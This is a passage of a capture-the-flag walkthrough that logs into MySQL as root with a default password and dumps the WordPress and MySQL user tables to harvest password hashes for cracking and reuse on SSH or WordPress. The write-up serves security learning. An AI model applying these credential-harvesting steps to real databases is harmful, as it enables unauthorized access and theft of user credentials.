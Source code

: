 
## 6. Raiding MySQL

`mysql -u root -p`

Use `mysql` as the password.

<br>
![a20](https://i.imgur.com/HzparnQ.png)
<br>

With root access we have a buffet of data at our fingertips.

`show databases;`

If we can find login credentials, we'll use them to attempt to login to ssh or Wordpress.

`use wordpress;`

Wordpress hashes take a while to try and crack, but we'll see if we can find them anyway.

`show tables;`

<br>
![A21](https://i.imgur.com/Vw3eqce.png)
<br>


`show columns from wp_users;` <br>
`select user_login,user_pass from wp_users`


<br>
![A22](https://i.imgur.com/98dbQZp.png)
<br>

*If you look closely and see the "flag2" column, you are more observant than I was! We'll come back to that later.*

Save the user login and user password columns to a local file so we have the option to try and crack the hashes. We already know `admin`'s Wordpress password, so it won't take too long to make a decent effort on `unclestinky`'s hash.

Let's see what's in the database called `mysql`.


`show databases;` <br>
`use mysql;` <br>
`show tables;`

MySQL hashes are not very computationally expensive, so we'll try to crack them before making any attempts on the Wordpress hashes.

<br>
![A23](https://i.imgur.com/lsGlZ5P.png)
<br>

`show columns from user;` <br>
`select User,Password from user;`
